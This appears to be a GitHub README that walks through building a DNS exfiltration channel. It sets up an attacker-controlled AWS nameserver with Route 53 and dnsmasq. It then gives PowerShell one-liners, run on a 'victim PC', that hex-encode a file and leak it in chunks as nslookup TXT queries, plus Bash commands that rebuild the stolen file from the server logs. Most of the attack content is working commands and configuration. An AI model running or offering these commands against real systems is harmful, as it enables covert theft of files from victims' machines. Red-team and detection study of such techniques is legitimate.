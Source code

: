 # DNS Exfil
DNS Exfiltration Setup on AWS

## Step 1: Purchase Domain Name on Route 53
Verify your email!

## Step 2: Create EC2 instance to host DNS service and logging
Use Amazon Linux OS, or any Linux OS of your preference.
Logging will contain DNS requests with encoded information, which we can then grep and cut later.
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/1acdb4fc-de86-46e1-9516-de9cc23264d9)


## Step 3: Create Security Groups
Inbound - Allow ICMP, TCP DNS, UDP DNS, SSH  
Outbound - Any  

  
## Step 4: Install dnsmasq on EC2 instance and configure it
`sudo yum install dnsmasq`  
`sudo nano /etc/dnsmasq.conf`  
  
Then input the content below into /etc/dnsmasq.conf, right at the bottom of the config file    
  
listen-address=<EC2's private IP>  
address=/#/<EC2's public IP>  
log-queries  
log-facility=/var/log/dnsmasq.log  
  
Restart the VM, or use the commands below to restart dnsmasq  
`ps -aux | grep dnsmasq`  
`sudo kill <pid of dnsmasq>`  
`sudo systemctl restart systemd-networkd.service`  
`sudo dnsmasq`  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/b0cfaf2f-93c0-4967-957c-cd3269241435)
  
  
## Step 5: Go to Route 53 config, note down default SOA and NS records  
Route 53 > click Hosted zones  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/50f03726-cfaf-4c20-b2c4-b5f1186cc1ee)
  
  
## Step 6: In Route 53 config, create 2x A Record to point NS record to your EC2 instance
**Record Name:** ns1.<yourdomain.com>  
**Type:** A  
**Value:** your EC2 public IP address  
**TTL:** 300  

**Record Name:** ns2.<yourdomain.com>  
**Type:** A  
**Value:** your EC2 public IP address  
**TTL:** 300  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/25738c09-9728-44b0-bab4-4534f07e0b0a)

  
## Step 7: Modify existing NS Record to point to your NS records, which point to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** NS  
**Value:**  
ns1.<yourdomain.com>  
ns2.<yourdomain.com>  
**TTL:** 60  

## Step 8: Modify existing SOA record to point to your NS record, which points to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** SOA  
**Value:** ns1.<yourdomain.com>. admin.<yourdomain.com> 1 7200 900 1209600 86400  
**TTL:** 60  
  
  
## Step 9: Note down default glue records
In Route 53, click on Registered domains > click Actions > Edit name servers

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/ca4d78ab-49ac-4880-bbfc-755626bd8bcf)  
    

Note down the current name server settings before making any modifications  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/35cf3290-b494-45de-9752-fea7e57e7f91)

  
## Step 10: Modify glue records
Once current settings noted down, change it to point to your own DNS server then Save.  
**Name Server:** ns1.<yourdomain.com>  
**Glue Records:** <your EC2 public IP address>  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/90d99de8-7099-4c4c-be81-5d9a8b68df3e)
  

## Step 11: Use CMD to nslookup as a test
Launch cmd prompt on victim PC then run the command below  
`nslookup -q=TXT 17April2024206pm.<yourdomain.com> ns1.<yourdomain.com>`  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/1cf48904-5c60-4e33-924d-108513b1b5e4)


## Step 12: Check your DNS logs in EC2
In EC2 DNS server, run the command below and observe your nslookup query being logged.  
`sudo cat /var/log/dnsmasq.log | grep -F "[TXT]"`  


## Step 13: Powershell command to hex encode a file, split, and do nslookup
Launch powershell prompt on victim PC then run command below.  
   
`cd <to folder holding file to exfiltrate>`  
`certutil -encodehex <file to exfiltrate> encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; foreach ($line in $split) {nslookup -q=TXT "$Line.<yourdomain.com>" ns1.<yourdomain.com>; sleep 5} `

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/2624b595-5ce0-423b-901b-8702de5a99c2)
  

## Step 14: Use a BASH command to read contents from TXT requests, remove unnecessary content, remove line break, remove spacing
In EC2 DNS server, run the commands below to combine assemble hex into file.  

`sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 6 -d ' ' | cut -f 1 -d '.' | sed -z 's/\n/ /g' | sed -e 's/[[:space:]]//g' > output`  
`sudo cat output | xxd -p -r > <file to exfiltrate from Step 12> && cat <file to exfiltrate from Step 12>`  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/c18d73f6-f166-4f47-aaa0-dc4a479cd2b3)

  
## Troubleshooting Tips:  
  
### Step 11, nameserver issue
In Step 10, sometimes you need to specify nameserver (ns1.<yourdomain.com>) in the nslookup command, sometimes you don't. I'm unsure why that is so.  
Remove or add nameservers as needed according to what you experience.  
You'll also need to remove or add nameservers from the command in Step 12!  
  
### Step 12, clearing logs
After some tests you might want to clear your logs. Use the command below:  
`sudo nano /var/log.dnsmasq.log`  
In nano, press `Alt + T` to clear everything in the log file  
Press `Ctrl + X` to save  

### Step 14, blank file output
There may be rare occasions where your output file is blank. Troubleshoot with commands below:  
  
Check that you're "cutting" correctly from the dnsmasq log using `sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 6 -d ' ' `.  
  
Adjust "-f 6" to "-f 5" or "-f 7" to change where to cut the log. Once you get the right spot, modify cut command accordingly.
  
### Command to split file and nslookup with incremental 1., 2., 3., 4.
certutil -encodehex <file to exfiltrate> encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; $n=0; foreach ($line in $split) {$n++; nslookup -q=TXT "$n.$Line.<yourdomain.com>" ns1.<yourdomain.com>; sleep 5}

### Regex to search for 1.xxxxx.dnsname.com, 10.xxxxx.dnsname.com, 100.xxxxx.dnsname.com
sudo cat /var/log/dnsmasq.log | grep -F "query[TXT]" | cut -f 6 -d ' ' | grep -P "^\d{1,3}\."  

